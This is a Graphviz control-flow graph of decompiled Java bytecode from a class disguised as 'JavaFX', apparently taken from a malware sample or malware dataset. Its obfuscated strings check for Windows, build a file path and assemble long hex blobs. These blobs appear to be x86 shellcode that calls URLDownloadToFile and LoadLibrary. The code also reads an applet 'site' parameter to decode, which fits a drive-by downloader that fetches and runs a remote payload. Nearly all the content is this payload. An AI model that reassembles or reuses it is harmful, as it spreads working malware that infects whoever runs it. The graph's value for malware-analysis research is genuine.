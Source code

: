 digraph "" {
    "r0 := @this: JavaFX"
    "push 47"
    "r0 := @this: JavaFX"->"push 47";
    "push 302"
    "push 47"->"push 302";
    "staticinvoke <JavaFX: java.lang.String repeat(char,int)>"
    "push 302"->"staticinvoke <JavaFX: java.lang.String repeat(char,int)>";
    "store.r r285"
    "staticinvoke <JavaFX: java.lang.String repeat(char,int)>"->"store.r r285";
    "push \"zzozzzzzs.nzzzame\""
    "store.r r285"->"push \"zzozzzzzs.nzzzame\"";
    "push \"z\""
    "push \"zzozzzzzs.nzzzame\""->"push \"z\"";
    "push \"\""
    "push \"z\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "push \"wgggging\""
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"push \"wgggging\"";
    "push \"g\""
    "push \"wgggging\""->"push \"g\"";
    "push \"g\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge new java.lang.StringBuilder";
    "return"
    "ifge new java.lang.StringBuilder"->"return";
    "new java.lang.StringBuilder"
    "ifge new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"fccccicccleccc://\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"fccccicccleccc://\"";
    "push \"c\""
    "push \"fccccicccleccc://\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r285"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r285";
    "load.r r285"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z%Z%Z%Z%Z@%Z%@@@@\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z%Z%Z%Z%Z@%Z%@@@@\"";
    "push \"@\""
    "push \"Z%Z%Z%Z%Z@%Z%@@@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r285";
    "store.r r285"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"444454404444444544354444152444546444544444754445449CE8\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"444454404444444544354444152444546444544444754445449CE8\"";
    "push \"4\""
    "push \"444454404444444544354444152444546444544444754445449CE8\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00NNNN0NNNN000NNN0NNNN0NNNNNN5NNNDNN83ED0NNNDNN3NN1NNNCN0NNN6NNNN4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00NNNN0NNNN000NNN0NNNN0NNNNNN5NNNDNN83ED0NNNDNN3NN1NNNCN0NNN6NNNN4\"";
    "push \"N\""
    "push \"00NNNN0NNNN000NNN0NNNN0NNNNNN5NNNDNN83ED0NNNDNN3NN1NNNCN0NNN6NNNN4\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0Z3ZZZZ4030780ZCZ8ZZZBZZ4ZZZ00ZZCZZ8B701ZZZZZZZC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0Z3ZZZZ4030780ZCZ8ZZZBZZ4ZZZ00ZZCZZ8B701ZZZZZZZC\"";
    "push \"Z\""
    "push \"0Z3ZZZZ4030780ZCZ8ZZZBZZ4ZZZ00ZZCZZ8B701ZZZZZZZC\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AccD8ccccB4c008EBc0cccc98Bcccc4ccccc03ccc4cccc8Dccc407C8cB4c0cc3ccccC56\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AccD8ccccB4c008EBc0cccc98Bcccc4ccccc03ccc4cccc8Dccc407C8cB4c0cc3ccccC56\"";
    "push \"AccD8ccccB4c008EBc0cccc98Bcccc4ccccc03ccc4cccc8Dccc407C8cB4c0cc3ccccC56\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"57BEI5E0I1IIII000IIII0III01\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"57BEI5E0I1IIII000IIII0III01\"";
    "push \"I\""
    "push \"57BEI5E0I1IIII000IIII0III01\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lllElllElllBFlllll4E010ll0ll00ll0lll1EllFllE8Dll60llll1l0lll000lll5lF5E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lllElllElllBFlllll4E010ll0ll00ll0lll1EllFllE8Dll60llll1l0lll000lll5lF5E\"";
    "push \"l\""
    "push \"lllElllElllBFlllll4E010ll0ll00ll0lll1EllFllE8Dll60llll1l0lll000lll5lF5E\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"89@EA81@@@@C2@5E@0@@@100@@@@@@@0@@@052@@@688@@00000@@@@00F@@F@@@95@4E@@01@@0@@@@00@@08@@@9E@@A8@@1@@@C@25@@E0@@@@\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"89@EA81@@@@C2@5E@0@@@100@@@@@@@0@@@052@@@688@@00000@@@@00F@@F@@@95@4E@@01@@0@@@@00@@08@@@9E@@A8@@1@@@C@25@@E0@@@@\"";
    "push \"89@EA81@@@@C2@5E@0@@@100@@@@@@@0@@@052@@@688@@00000@@@@00F@@F@@@95@4E@@01@@0@@@@00@@08@@@9E@@A8@@1@@@C@25@@E0@@@@\""->"push \"@\"";
    "push \"@\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PPP1000PPPP031FP6PP0PPPPPPP1C2PPPP8A9C35PPP6PPP3020PPP00P0P8PPP0FBPP0PP0740PPPP6PP881PPPCPPP3P2PPPPP46PPPPEPPPPBPEPPPEPPPPPC6043PPPP20089PPPPEAPPPP81PPCP2PP4PP5PP020PPPP000P5PPPP2FF95PP5201PPPP0PP00PP0PPP89PPEPPPPPPPAP8PP1PPPC2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PPP1000PPPP031FP6PP0PPPPPPP1C2PPPP8A9C35PPP6PPP3020PPP00P0P8PPP0FBPP0PP0740PPPP6PP881PPPCPPP3P2PPPPP46PPPPEPPPPBPEPPPEPPPPPC6043PPPP20089PPPPEAPPPP81PPCP2PP4PP5PP020PPPP000P5PPPP2FF95PP5201PPPP0PP00PP0PPP89PPEPPPPPPPAP8PP1PPPC2\"";
    "push \"P\""
    "push \"PPP1000PPPP031FP6PP0PPPPPPP1C2PPPP8A9C35PPP6PPP3020PPP00P0P8PPP0FBPP0PP0740PPPP6PP881PPPCPPP3P2PPPPP46PPPPEPPPPBPEPPPEPPPPPC6043PPPP20089PPPPEAPPPP81PPCP2PP4PP5PP020PPPP000P5PPPP2FF95PP5201PPPP0PP00PP0PPP89PPEPPPPPPPAP8PP1PPPC2\""->"push \"P\"";
    "push \"P\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"54440402404404444004445254444440FF955601044440004446A006A008449444EA444481C44444244445444E440444410044400445424444849444EA48441C2444474480444420004404524446444A44440044F4444F44D4440444464444A04445489E4A81C254E044441000444\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"54440402404404444004445254444440FF955601044440004446A006A008449444EA444481C44444244445444E440444410044400445424444849444EA48441C2444474480444420004404524446444A44440044F4444F44D4440444464444A04445489E4A81C254E044441000444\"";
    "push \"54440402404404444004445254444440FF955601044440004446A006A008449444EA444481C44444244445444E440444410044400445424444849444EA48441C2444474480444420004404524446444A44440044F4444F44D4440444464444A04445489E4A81C254E044441000444\""->"push \"4\"";
    "push \"4\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0eee52eFeeeeFeeee9eeee55A0100eeee0089eeeeeeeEeeA81eeCeeee2e5E0ee1eee00eeee00526eeeee8eeee80eeee0eee000eeeeeeee0ee0FFeeee9eee54eeEeeeee0e1eee0eee000eeee89EAee81Ceeee2ee5E01eee00eee0e0eee3eeee1Fee601Ceeeee28eAeee9C356Eeee0eeee20eee0eeeee0eeee0e80e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0eee52eFeeeeFeeee9eeee55A0100eeee0089eeeeeeeEeeA81eeCeeee2e5E0ee1eee00eeee00526eeeee8eeee80eeee0eee000eeeeeeee0ee0FFeeee9eee54eeEeeeee0e1eee0eee000eeee89EAee81Ceeee2ee5E01eee00eee0e0eee3eeee1Fee601Ceeeee28eAeee9C356Eeee0eeee20eee0eeeee0eeee0e80e\"";
    "push \"e\""
    "push \"0eee52eFeeeeFeeee9eeee55A0100eeee0089eeeeeeeEeeA81eeCeeee2e5E0ee1eee00eeee00526eeeee8eeee80eeee0eee000eeeeeeee0ee0FFeeee9eee54eeEeeeee0e1eee0eee000eeee89EAee81Ceeee2ee5E01eee00eee0e0eee3eeee1Fee601Ceeeee28eAeee9C356Eeee0eeee20eee0eeeee0eeee0e80e\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"FBS0SS07406SSS88S1C32SSS4SSS6SSSEBEECSSS604320SS089ESSSASSSS8SS1SSC24SS5SSS0SS2S00S0SSSS0SSSSS52SSSFFSSS9SSSS55SSSSSSSS201SSSS0S00089SSSSEA81SC25SSSS0SSSS0SSSS2SSSS000SSS05SSSSS2SSSS5S0SSFFS95560SS100SSSSS00SSSSS6SSSSA006\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"FBS0SS07406SSS88S1C32SSS4SSS6SSSEBEECSSS604320SS089ESSSASSSS8SS1SSC24SS5SSS0SS2S00S0SSSS0SSSSS52SSSFFSSS9SSSS55SSSSSSSS201SSSS0S00089SSSSEA81SC25SSSS0SSSS0SSSS2SSSS000SSS05SSSSS2SSSS5S0SSFFS95560SS100SSSSS00SSSSS6SSSSA006\"";
    "push \"S\""
    "push \"FBS0SS07406SSS88S1C32SSS4SSS6SSSEBEECSSS604320SS089ESSSASSSS8SS1SSC24SS5SSS0SS2S00S0SSSS0SSSSS52SSSFFSSS9SSSS55SSSSSSSS201SSSS0S00089SSSSEA81SC25SSSS0SSSS0SSSS2SSSS000SSS05SSSSS2SSSS5S0SSFFS95560SS100SSSSS00SSSSS6SSSSA006\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A0SS0SSSS89ESSSSA81C25ESSSSS0S1SSSS00SSS00SSS5289ESSSSSSSA81SSSSSC2SSSSA6020SSS0SSSS0SSSS0S5S2SS6SA0SS0FFD0SSSS6A0SSS58SSSS9SSSESSSSA81C25SSSE01S0S00SSSS0S52SSSSFF955ASSSS0S1SSSS00SSSSS00S9D5DS5FS5E5ASS5SSS95SBSS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A0SS0SSSS89ESSSSA81C25ESSSSS0S1SSSS00SSS00SSS5289ESSSSSSSA81SSSSSC2SSSSA6020SSS0SSSS0SSSS0S5S2SS6SA0SS0FFD0SSSS6A0SSS58SSSS9SSSESSSSA81C25SSSE01S0S00SSSS0S52SSSSFF955ASSSS0S1SSSS00SSSSS00S9D5DS5FS5E5ASS5SSS95SBSS\"";
    "push \"A0SS0SSSS89ESSSSA81C25ESSSSS0S1SSSS00SSS00SSS5289ESSSSSSSA81SSSSSC2SSSSA6020SSS0SSSS0SSSS0S5S2SS6SA0SS0FFD0SSSS6A0SSS58SSSS9SSSESSSSA81C25SSSE01S0S00SSSS0S52SSSSFF955ASSSS0S1SSSS00SSSSS00S9D5DS5FS5E5ASS5SSS95SBSS\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hhh5hhhhh8C3hhh0h00hh0hhhh0hhh00000hhh0hhh0h0hh00000000000000hhhh00hhhh0hhh00hhh47hhh65h74h54hhhhh65hhhhh6hD70506h174hh6hhhh8h4hhhh10h0hh4Chh6hhF6hhh16h44hChh69hhh62h7261hhh727hhhh941hh00476h57h4hhh5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hhh5hhhhh8C3hhh0h00hh0hhhh0hhh00000hhh0hhh0h0hh00000000000000hhhh00hhhh0hhh00hhh47hhh65h74h54hhhhh65hhhhh6hD70506h174hh6hhhh8h4hhhh10h0hh4Chh6hhF6hhh16h44hChh69hhh62h7261hhh727hhhh941hh00476h57h4hhh5\"";
    "push \"h\""
    "push \"hhh5hhhhh8C3hhh0h00hh0hhhh0hhh00000hhh0hhh0h0hh00000000000000hhhh00hhhh0hhh00hhh47hhh65h74h54hhhhh65hhhhh6hD70506h174hh6hhhh8h4hhhh10h0hh4Chh6hhF6hhh16h44hChh69hhh62h7261hhh727hhhh941hh00476h57h4hhh5\""->"push \"h\"";
    "push \"h\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"07XXX26XXXXF6X3X416XX4XX647265XXX737XXXX30X057696XXXXE457XXX8X6XXX56XXXX300BBXXX89XXXFXXX2XXXXXX8XXXX9FXXXX730CXXXX0XAEXXXX75XFDXX2XXXXXX9F7X89FXXXX93XX1XXXXXXC0BXXE3XC0XXX0XX00XXXX0XXXX003B51XXXXXB02XXX0XXXXXX0X0066\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"07XXX26XXXXF6X3X416XX4XX647265XXX737XXXX30X057696XXXXE457XXX8X6XXX56XXXX300BBXXX89XXXFXXX2XXXXXX8XXXX9FXXXX730CXXXX0XAEXXXX75XFDXX2XXXXXX9F7X89FXXXX93XX1XXXXXXC0BXXE3XC0XXX0XX00XXXX0XXXX003B51XXXXXB02XXX0XXXXXX0X0066\"";
    "push \"X\""
    "push \"07XXX26XXXXF6X3X416XX4XX647265XXX737XXXX30X057696XXXXE457XXX8X6XXX56XXXX300BBXXX89XXXFXXX2XXXXXX8XXXX9FXXXX730CXXXX0XAEXXXX75XFDXX2XXXXXX9F7X89FXXXX93XX1XXXXXXC0BXXE3XC0XXX0XX00XXXX0XXXX003B51XXXXXB02XXX0XXXXXX0X0066\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lAllllDllllll03851lllB020l000lllll8B7ll07ll88lll3C6ll1C03llB51lllB0llllll2llll00008DBlllD1Fl02llll0ll0ll0llll0lllAlDlll03851B02l00ll00lABADllll038lllllll5l1llBll020l00llll05lll0llllABlAD03l851B0lll2lll0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lAllllDllllll03851lllB020l000lllll8B7ll07ll88lll3C6ll1C03llB51lllB0llllll2llll00008DBlllD1Fl02llll0ll0ll0llll0lllAlDlll03851B02l00ll00lABADllll038lllllll5l1llBll020l00llll05lll0llllABlAD03l851B0lll2lll0\"";
    "push \"lAllllDllllll03851lllB020l000lllll8B7ll07ll88lll3C6ll1C03llB51lllB0llllll2llll00008DBlllD1Fl02llll0ll0ll0llll0lllAlDlll03851B02l00ll00lABADllll038lllllll5l1llBll020l00llll05lll0llllABlAD03l851B0lll2lll0\""->"push \"l\"";
    "push \"l\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00zzz0zzABzz5E31DBADzz5zzzz6zz0z3z8zzzz5zzzz1Bzzzz0zzzzzzzz2zz000z08zzz9Czzz6zz89Dz751FzzCzFzzzz3zzzzzA6zzz59z74045zzzzzE4z3zzzzEBzEzzzzzz95Ezzzzz93zDzz1E0zzzzzzz0zz38527020000z31F69zz6zzzz66AzzzzDC1E00zzzz203zz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00zzz0zzABzz5E31DBADzz5zzzz6zz0z3z8zzzz5zzzz1Bzzzz0zzzzzzzz2zz000z08zzz9Czzz6zz89Dz751FzzCzFzzzz3zzzzzA6zzz59z74045zzzzzE4z3zzzzEBzEzzzzzz95Ezzzzz93zDzz1E0zzzzzzz0zz38527020000z31F69zz6zzzz66AzzzzDC1E00zzzz203zz\"";
    "push \"00zzz0zzABzz5E31DBADzz5zzzz6zz0z3z8zzzz5zzzz1Bzzzz0zzzzzzzz2zz000z08zzz9Czzz6zz89Dz751FzzCzFzzzz3zzzzzA6zzz59z74045zzzzzE4z3zzzzEBzEzzzzzz95Ezzzzz93zDzz1E0zzzzzzz0zz38527020000z31F69zz6zzzz66AzzzzDC1E00zzzz203zz\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8XX51F020XXXX000XX89CXX6AXXXXXXXD03XX85XXXXX1B020000XXXC3EBXX1X00XXXX0XXX0XX00XXXXX0XXX00XXX00XXX000XX000XXX00000XXXXX0XX0XXXXX0X0XXXXX0000XXX0X0XXXX08XXXXXXX985XXXX1BX0X20XXXX0XXXX005XXXX657XXXE8XX58FFXXXXFXXFFFXXX5XXXF5XXXX\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8XX51F020XXXX000XX89CXX6AXXXXXXXD03XX85XXXXX1B020000XXXC3EBXX1X00XXXX0XXX0XX00XXXXX0XXX00XXX00XXX000XX000XXX00000XXXXX0XX0XXXXX0X0XXXXX0000XXX0X0XXXX08XXXXXXX985XXXX1BX0X20XXXX0XXXX005XXXX657XXXE8XX58FFXXXXFXXFFFXXX5XXXF5XXXX\"";
    "push \"8XX51F020XXXX000XX89CXX6AXXXXXXXD03XX85XXXXX1B020000XXXC3EBXX1X00XXXX0XXX0XX00XXXXX0XXX00XXX00XXX000XX000XXX00000XXXXX0XX0XXXXX0X0XXXXX0000XXX0X0XXXX08XXXXXXX985XXXX1BX0X20XXXX0XXXX005XXXX657XXXE8XX58FFXXXXFXXFFFXXX5XXXF5XXXX\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"EA;;;B;;0;;1CE;8;;;03;;E;;;B;;;B;;;7;;4;;;02;;;;EBED;C;;3;55524C;;4;;;D4;;F;;;;4E2;;;E44;;4;;;;C4;;C00;;55;524;;;C4;;46F776E;;6C6F;;;;6;;;1;;;;6;;;4;;;;;54;;;;;;;;6;;;F;;4;;6;69;;;;6C;6;;5;;;41;00;;;7;;064;66757;;0;;64;;;;2;;;;E65786;500;;;;63;7;;2617;;3682;;;;E70;;6;;8;70;;0;0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"EA;;;B;;0;;1CE;8;;;03;;E;;;B;;;B;;;7;;4;;;02;;;;EBED;C;;3;55524C;;4;;;D4;;F;;;;4E2;;;E44;;4;;;;C4;;C00;;55;524;;;C4;;46F776E;;6C6F;;;;6;;;1;;;;6;;;4;;;;;54;;;;;;;;6;;;F;;4;;6;69;;;;6C;6;;5;;;41;00;;;7;;064;66757;;0;;64;;;;2;;;;E65786;500;;;;63;7;;2617;;3682;;;;E70;;6;;8;70;;0;0\"";
    "push \";\""
    "push \"EA;;;B;;0;;1CE;8;;;03;;E;;;B;;;B;;;7;;4;;;02;;;;EBED;C;;3;55524C;;4;;;D4;;F;;;;4E2;;;E44;;4;;;;C4;;C00;;55;524;;;C4;;46F776E;;6C6F;;;;6;;;1;;;;6;;;4;;;;;54;;;;;;;;6;;;F;;4;;6;69;;;;6C;6;;5;;;41;00;;;7;;064;66757;;0;;64;;;;2;;;;E65786;500;;;;63;7;;2617;;3682;;;;E70;;6;;8;70;;0;0\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r46"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r46";
    "load.r r0"
    "store.r r46"->"load.r r0";
    "push \"6sit6666e\""
    "load.r r0"->"push \"6sit6666e\"";
    "push \"6\""
    "push \"6sit6666e\""->"push \"6\"";
    "push \"6\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>";
    "push \"0UUUUU090\""
    "virtualinvoke <JavaFX: java.lang.String getParameter(java.lang.String)>"->"push \"0UUUUU090\"";
    "push \"U\""
    "push \"0UUUUU090\""->"push \"U\"";
    "push \"U\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r67"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r67";
    "staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>"
    "store.r r67"->"staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>";
    "store.r r324"
    "staticinvoke <JavaFXColor: java.lang.String decodeString(java.lang.String)>"->"store.r r324";
    "store.r r324"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
